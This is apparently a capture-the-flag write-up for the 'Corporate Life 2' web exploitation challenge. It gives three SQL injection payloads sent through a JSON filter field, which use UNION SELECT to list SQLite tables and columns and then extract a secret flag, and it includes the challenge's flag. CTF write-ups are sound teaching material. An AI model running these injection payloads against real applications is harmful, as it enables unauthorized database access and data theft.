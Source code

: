 ```yaml
---
title: "Corporate Life 2"
categories: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_IOiUPTqB}
---
```

> ~

---

Continuation of `Corporate Life 1`, where the same payload did not return a flag. Instead, i attempted to enumerate the database structure to locate relevant tables.

## Database Enumeration

To identify tables in the database, i used the following **SQL injection** payload:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table' --"
}
```

Once the table names were retrieved, i focused on the `flags` table and attempted to enumerate its columns using:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags') --"
}
```

## Extracting the Flag

After identifying the `secret_flag` column in the `flags` table, I extracted its contents with the following payload:

```json
{
  "filter": "1' UNION SELECT request_id, secret_flag, NULL, NULL, NULL, NULL FROM flags --"
}
```

This successfully revealed the flag.

